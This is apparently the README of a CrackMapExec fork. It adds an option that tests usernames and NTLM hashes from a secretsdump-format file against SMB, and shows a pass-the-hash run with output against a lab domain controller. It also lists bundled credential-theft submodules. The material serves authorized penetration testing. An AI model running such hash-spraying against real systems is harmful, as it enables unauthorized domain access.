 ![Supported Python versions](https://img.shields.io/badge/python-2.7-blue.svg)

# CrackMapExec fork to include features

<p align="center">
  <img src="https://cloud.githubusercontent.com/assets/5151193/17577511/d312ceb4-5f3b-11e6-8de5-8822246289fd.jpg" alt="cme"/>
</p>

## Features Added
** Test user and hashes from file with "secretdump" format (-uH parameter) **

###Example:

```
(CrackMapExec) ~/t/CrackMapExec> cme smb 192.168.56.100 -d ramlab -uH ../hashes.txt
SMB         192.168.56.100  445    DC01             [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:DC01) (domain:ramlab) (signing:True) (SMBv1:True)
SMB         192.168.56.100  445    DC01             [-] ramlab\testuser22 4139c3eafc40242c4317313ea08d00b7 STATUS_LOGON_FAILURE 
SMB         192.168.56.100  445    DC01             [-] ramlab\aaandy 4b291acc6fd3ae12f92ec3e587ab5abe STATUS_LOGON_FAILURE 
SMB         192.168.56.100  445    DC01             [+] ramlab\testuser2 85a165727adfbd6550626d515e4e1ef3 
SMB         192.168.56.100  445    DC01             [-] ramlab\mnfffi 70e81ac21b3b2aedf0b4b601a6226d2d STATUS_LOGON_FAILURE 
SMB         192.168.56.100  445    DC01             [-] ramlab\btoaan 0c391a86d139b2a17cf3260a06387558 STATUS_LOGON_FAILURE 
SMB         192.168.56.100  445    DC01             [+] ramlab\testuser3 4139c3eafc40242c4317313ea08d00b7 
SMB         192.168.56.100  445    DC01             [+] ramlab\testuser2 85a165727adfbd6550626d515e4e1ef3 
SMB         192.168.56.100  445    DC01             [-] ramlab\btoaan 0c391a86d139b2a17cf3260a06387558 STATUS_LOGON_FAILURE 
```

# Acknowledgments
**(These are the people who did the hard stuff)**

Original repository:
- [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) :+1:

This project was originally inspired by:
- [smbmap](https://github.com/ShawnDEvans/smbmap)
- [CredCrack](https://github.com/gojhonny/CredCrack)
- [smbexec](https://github.com/pentestgeek/smbexec)

Unintentional contributors:

- The [Empire](https://github.com/PowerShellEmpire/Empire) project
- @T-S-A's [smbspider](https://github.com/T-S-A/smbspider) script
- @ConsciousHacker's partial Python port of Invoke-obfuscation from the [GreatSCT](https://github.com/GreatSCT/GreatSCT) project

This repository contains the following repositories as submodules:
- [Impacket](https://github.com/CoreSecurity/impacket)
- [Pywinrm](https://github.com/diyan/pywinrm)
- [Pywerview](https://github.com/the-useless-one/pywerview)
- [PowerSploit](https://github.com/PowerShellMafia/PowerSploit)
- [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)
- [Invoke-Vnc](https://github.com/artkond/Invoke-Vnc)
- [Mimikittenz](https://github.com/putterpanda/mimikittenz)
- [NetRipper](https://github.com/NytroRST/NetRipper)
- [RandomPS-Scripts](https://github.com/xorrior/RandomPS-Scripts)
- [SessionGopher](https://github.com/fireeye/SessionGopher)
- [Mimipenguin](https://github.com/huntergregal/mimipenguin)

# Documentation, Tutorials, Examples
See the project's [wiki](https://github.com/byt3bl33d3r/CrackMapExec/wiki) for documentation and usage examples

# Installation
Please see the installation wiki page [here](https://github.com/byt3bl33d3r/CrackMapExec/wiki/Installation).
